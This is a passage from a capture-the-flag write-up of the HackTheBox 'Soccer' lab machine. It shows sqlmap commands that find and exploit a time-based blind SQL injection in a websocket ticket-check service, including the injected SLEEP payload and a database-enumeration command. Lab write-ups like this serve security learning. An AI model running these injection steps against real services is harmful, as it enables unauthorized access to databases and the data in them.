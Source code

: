 This takes me to a similar but new version of the site. There's now a signup and login function that takes me to a new page, `/check`, where I am assigned a ticket number. I can enter my ticket number to see if the ticket is valid and when the soccer game is. 

Intercepting the request in Burpsuite, I see that it does this by establishing a `websocket` connection to `ws://soc-player.soccer.htb:9091`. 

I want to check this function for SQL injection, as it is likely looking up a database on the backend. However, doing SQL injection on websockets can be tricky, as websockets do not have to response to requests the way HTTP does.

There's a [post from Rayhan0x01](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) about doing SQLi against websockets. They have a python3 script that you can run before using `SQLMap`. In this scenario however, this is not neccessary, because this webcoket is configured to always respond.

I run `SQLMap` against the websocket and find it is vulnerabile to this command. I use the `--batch` flag to automatically provide default answers to all questions:
```bash
┌──(kali㉿Kali)──[15:34:10]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   "https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:34:13 /2024-04-10/

JSON data found in POST body. Do you want to process it? [Y/n/q] 

<...SNIP...>
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 98 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"99912 AND (SELECT 9944 FROM (SELECT(SLEEP(5)))bSLx)"}
---
<...SNIP...>

[*] ending @ 15:36:34 /2024-04-10/

```
The vulnerable method is time-based blind injection. This is generally the slowest method. Because of this, I add the `--threads=10` flag to improve the speed. I enumerate all the databases by adding the `-dbs` flag, which reveals the `soccer_db` database
```bash
┌──(kali㉿Kali)──[15:48:26]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}' --batch --threads=10 --dbs             
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

```